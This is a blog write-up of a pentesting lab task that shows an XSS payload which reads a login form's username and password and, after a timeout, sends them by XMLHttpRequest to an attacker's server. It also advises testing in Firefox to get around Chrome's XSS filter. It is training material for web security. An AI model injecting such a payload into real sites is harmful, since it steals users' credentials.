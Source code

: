```yaml
---
author: AnirudhAnand
comments: true
date: 2014-10-31 14:22:28+00:00
layout: post
slug: xss-posting-xmlhttprequest-js-pentesters-task-13
title: 'XSS - posting with XMLHttpRequest(): JS for Pentesters task 13'
wordpress_id: 343
categories:
- jsp
- javascript
- xss
- security-tube
summary: writeup for task-13 of the JS for pentesters series by security-tube - XSS posting with XMLHTTPRequest()
---
```


We have already completed the challenge in which we steal from [Auto Complete]({{ site.url }}/2014/10/30/xss-stealing-auto-complete-js-pentesters-task-12-write/). Now this is the same challenge but the condition is that we need to use XMLHttpRequest to complete the challenge. If you are not familiar with XMLHttpRequest, I strongly recommend you to read the post "**[Everything you should know about XMLHttpRequest()]({{ site.url }}/2014/09/13/ajax-everything-you-should-know-about-xmlhttprequest/)**". Reading about XMLHttpRequest() basics will help you understand more and how to crack this challenge.

[JS for Pentesters task 13](http://pentesteracademylab.appspot.com/lab/webapp/jfp/13)

Our objectives are Write JS attack code which waits for 10 seconds, then submits the form automatically to your Attack server using an XMLHttpRequest() call. Let us see how this can be done.

Basically what we need is to use **setTimeout()** function in JavaScript which will execute a function after a specified amount of time. So we can use it run the function we defined and within that, we can specify to post the credentials to the server we host. The payload looks like this:

{% highlight html lineos %}
    <script>
    var user = document.forms[0].elements[0].value;
    var pass = document.forms[0].elements[1].value;    
    window.setTimeout( function () {
    var request = new XMLHttpRequest();
    request.open("GET", "http://localhost:8000/?user="+user+"&pass="+pass, true);
    request.send()
    }, 5000);
    </script>
{% endhighlight %}


So lets see what are we doing here. First we are declaring 2 variables with which we takes in the username and password that the user enters. Then we use the **window.setTimeout()** function which will execute a function after 5000 milliseconds or 5 seconds. Inside the function, we are declaring a new XMLHttpRequest() object using which we are sending data to our server (I used to host an HTTP server locally).

**Note:**

1) While playing with **XSS challenges**, it is always recommended to use Mozilla Firefox because Google chrome has inbuilt XSS stopper which will stop us from executing arbitrary JavaScript code even if the page is vulnerable to XSS. So its strongly recommended to use Firefox instead of chrome.

We hope that you really liked this challenge. If there is anything you didn’t understand or wanted to get more clarity, please comment down and we are more than happy to help. Also, if you get a better way of solving the challenge, please share it with us and we are happy to learn from our readers too. Happy pentesting..
